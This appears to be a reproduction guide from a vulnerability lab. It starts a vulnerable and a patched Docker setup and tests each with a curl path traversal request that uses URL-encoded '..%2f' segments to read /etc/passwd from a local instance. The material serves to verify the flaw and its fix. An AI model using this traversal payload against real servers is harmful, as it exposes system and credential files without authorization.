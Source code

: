 # Reproduction Guide

## Vulnerable Version
### Step 1 – Start the Lab Environment
Start all required containers with Docker Compose using `docker-compose.yml`:

```bash
docker-compose up -d
```

### Step 2 – Verify the Vulnerability
Issue the following HTTP request to the local instance:
```bash
curl "127.0.0.1:8081/%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f../etc/passwd"
```
The response body should contains `root:x:`.

## Not Vulnerable Version
### Step 1 – Start the Lab Environment
Start all required containers with Docker Compose using `docker-compose-secure.yml`:

```bash
docker-compose up -d
```

### Step 2 – Verify the Vulnerability
Issue the following HTTP request to the local instance:
```bash
curl "127.0.0.1:8081/%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f../etc/passwd"
```
The response body should NOT contains `root:x:`.

